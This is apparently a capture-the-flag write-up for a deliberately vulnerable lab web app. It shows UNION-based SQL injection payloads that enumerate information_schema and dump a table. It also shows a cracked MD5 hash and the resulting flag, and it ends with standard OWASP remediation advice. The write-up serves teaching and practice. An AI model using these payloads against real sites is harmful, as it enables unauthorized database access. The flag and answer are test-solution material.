 # SQL Injection (IMAGE)

Once clicking the `Search Image` located on bottom of the page, a prompt will be shown to search image with image number, (http://{IP_ADDR}/index.php?page=searchimg). let's see what information will be pulling off from: Putting number to see what information will be pulling out from Once you put any number and submit, it will bring a result with corresponding ID number with `ID`, `First name`, `Surname`

```
[...]
ID: 1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
[...]
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
[...]
```

As studied from [last method](../0x0a-sql_injection-members/README.md), every database will have it's schema, so let's check what information can be get by looking through `information_schema`

```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
the `list_images` table exists, so let's check all the column names from it.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `list_images`, the columns exist

```
id, url, title, comment
```

By tring all the columns, with using columns `title`, and `comment`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT title, comment FROM list_images
```

<img width="1163" alt="image" src="https://user-images.githubusercontent.com/46742040/202277463-931b337f-c8cb-48c2-bbb4-1db5929509cf.png">

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

```
1928e8083cf461a51303633093573c46 -(MD5 decrypt)-> albatroz -(sh256 encrypt)->

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Remediation
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
